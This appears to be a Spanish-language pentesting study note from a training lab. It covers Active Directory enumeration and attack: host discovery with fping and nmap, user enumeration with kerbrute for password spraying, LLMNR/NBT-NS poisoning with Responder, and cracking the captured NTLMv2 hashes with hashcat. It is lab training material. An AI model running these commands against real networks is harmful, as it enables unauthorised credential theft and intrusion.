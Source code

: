 #enum

## Key data points

|**Elemento**|**Descripción**|
|---|---|
|`AD Users`|Enumerar usuarios para password spraying.|
|`AD Joined Computers`|Identificar DCs, servidores SQL, web, Exchange, etc.|
|`Key Services`|Kerberos, NetBIOS, LDAP, DNS.|
|`Vulnerable Hosts`|Buscar hosts rápidos de explotar.|

## Herramientas
- Identificación pasiva seguida de validación activa 
### `fping`: Búsqueda masiva de IP´s por ICMP
```bash
fping -asgq 172.16.5.0/23
```
- Después podemos utilizar nmap con los targets obtenidos
	```bash
	sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum
	```
### `kerbrute`: Enumerar usuarios
Interesante utilizar junto con listas como `jsmith.txt` o `jsmith2.txt` de [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames)
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
## LLMNR/NBT-NS Possoning
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) son métodos alternativos de resolución de nombres que pueden ser usados cuando falla el DNS. Cualquier host puede responder utilizando alguno de los protocolos mencionados. 
## Linux - `responder`
### Configuración - `responder.conf`
Se pueden configurar los protocolos sobre los que actúar. Por defecto alojado en: 
```
/usr/share/responder
```
### Logs
Además de mostrar por pantalla los logs, responder guarda en un log la información recopilada: 
```
/usr/share/responder/logs
```
### Responder con configuración por defecto
```bash
sudo responder -I ens224
```
### Craquear NTMLv2 con hashcat
El hash que se captura en el paso anterior es un hash NTMLv2 ( [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) 
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```
